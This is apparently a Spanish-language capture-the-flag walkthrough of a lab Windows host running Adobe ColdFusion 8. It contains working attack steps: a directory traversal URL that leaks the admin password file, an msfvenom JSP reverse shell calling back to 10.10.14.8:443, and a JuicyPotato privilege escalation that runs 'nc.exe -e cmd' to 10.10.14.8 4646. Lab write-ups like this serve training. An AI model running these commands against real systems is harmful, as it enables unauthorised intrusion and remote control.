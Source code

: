 
# Enumeración | Reconocimiento | y posibles ataques

Envío paquetes de prueba ICMP (Internet Control Message Protocol) hacia el equipo para verificar conectividad y ver el TTL

TTL = 127

Indica que es un equipo Windows



Escaneo de puertos TCP abiertos
nmap -p- -sS --min-rate 5000 -vv -n 10.10.10.11 -oG PortStatus



Puertos abiertos:

135
8500
49154

Escaneo de servicios en puertos abiertos
nmap -p135,8500,49154 -sCV 10.10.10.11 -oN services



Intento de conexión mediante el protocolo RPC (Remote Procedure Call). Indicando con -U y -N que no se utilizarán un nombre de usuario o contraseña para autenticar la conexión, es decir una conexión anónima. Pero da error, no se puede establecer la conexión.


Intento conectarme por navegador para ver que es el puerto 8500 y veo archivos
http://10.10.10.11:8500/





Encontramos archivos .cfm que hace referencia a un lenguaje de programación y un entorno de desarrollo de aplicaciones web que se ejecuta en un servidor web,

En administrator/ encontramos un panel de autenticación de Adobe ColdFusion 8



Encontramos que interpreta estas extensiones: 

.asp
.php
.jsp


Ingreso credenciales admin:admin
Inspecciono la página
Cambio Type:Password a Text, y veo el siguiente hash

Hash: 0522E54FD1D80375A5662EA794B40F56F02DBB19

Intento crackearlo en www.crackstation.net, pero no lo encuentra



Analizo el tipo de hash arrojado por la aplicación con “hashid” y me identifica que varios algoritmos podrían haber sido utilizqados para generar el hash.



Analizo también con “hash-identifier” y me indica también SHA1

→ hash-identifier
 


Busco vulnerabilidades de Adobe ColdFusion 8



Elijo usar la vulnerabilidad de Directory Traversal con el script “multiple/remote/14641.py”

Veo la URL que usa el script para usarlo manualmente:

searchsploit -x  

Agrego en el navegador ?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en a la ruta actual para navegar a: 

http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

Devuelve una contraseña hasheada
2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03



Password: happyday

Ingreso a ColdFusion como admin y contraseña “happyday”


En el panel de la izquierda abrir Mappings y Scheduled Tasks

Mappings:



Rutas filtradas:
C:\ColdFusion8\wwwroot\CFIDE 
C:\ColdFusion8\gateway\cfc 

Scheduled Tasks → Scheduled New Task

Sabemos que podemos subir archivos .asp, .php, .jsp 
Busco archivo .JSP para subir 






# Explotación y movimiento lateral

msfvenom -l payloads | grep jsp



Creo archivo de reverse shell  .jsp con msfvenom
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -o shellreverse.jsp



Comparto el archivo shellreverse.jsp
python3 -m http.server 80


Guardo archivo como tarea programada


Corro la tarea programada



Verifico la carga del archivo







Me pongo en escucha por el puerto 443



Recibo la consola autenticado como tolis en la máquina víctima






# Explotación WEB






# Escalada de privilegios

Detecto el permiso SeImpersonatePrivilege, por lo cual escalo privilegios con “JuicyPotato”



Descargar netcat
Descargar juicipotato.exe

Envío los archivos a la máquina víctima con certutil.exe



Me pongo en escucha por el puerto 4646



Ejecuto el juicyPotato para enviar la consola al 4646

.\juicyPotato.exe -t * -l 1337 -p c:\Windows\System32\cmd.exe -a "/c c:\windows\temp\folder\nc.exe -e cmd 10.10.14.8 4646"



Recibo  la consola



Encuentro la Flag







# Links útiles


  
  
  
## Lenguajes utilizados
## Vulnerabilidades en aplicaciones
## Escalada de privilegios
## Exploits
## Herramientas
